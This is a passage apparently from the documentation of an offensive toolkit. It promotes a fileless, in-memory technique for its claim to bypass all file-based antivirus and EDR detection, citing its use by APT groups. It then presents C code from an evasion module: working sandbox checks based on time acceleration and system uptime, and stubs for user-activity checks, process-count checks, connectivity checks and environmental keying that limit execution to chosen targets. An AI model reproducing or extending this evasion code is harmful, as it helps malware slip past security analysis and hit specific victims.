 **Analysis:**
- ✅ **Bypasses ALL file-based detection**
- ✅ File exists in memory but **not on disk**
- ✅ **No file to scan** for AV/EDR
- ✅ Used in **real APT campaigns** (2021+)
- ✅ **Extremely difficult to detect**

**Comparison:** Only **advanced red teams** and **APT groups** use this.

---

### 3. NATIVE C PAYLOADS (Advanced Evasion)

#### ⭐⭐⭐⭐⭐ Anti-Analysis & Sandbox Detection
**File:** `native_payloads/core/evasion.c` (369 lines)

**Implemented Checks:**

```c
// Time acceleration detection (sandbox speedup)
int detect_time_acceleration(void) {
    uint32_t start = get_tick_count();
    sleep_ms(1000);  // Sleep for 1 second
    uint32_t elapsed = get_tick_count() - start;
    if (elapsed < 900) {
        return 1;  // Sandbox detected
    }
    return 0;
}

// System uptime check (sandboxes have low uptime)
int check_system_uptime(void) {
    uint32_t uptime = get_system_uptime();
    if (uptime < 600000) {  // < 10 minutes
        return 1;  // Suspicious
    }
    return 0;
}

// User activity check (real users move mouse/keyboard)
int check_user_activity(void);

// Process count (real systems have 50+, sandboxes < 30)
int check_process_count(void);

// Internet connectivity (to detect air-gapped analysis)
int check_internet_connectivity(void);

// Environmental keying (only run on specific targets)
int validate_environment(
    const char* target_username,
    const char* target_domain,
    const char* target_hostname
);
```
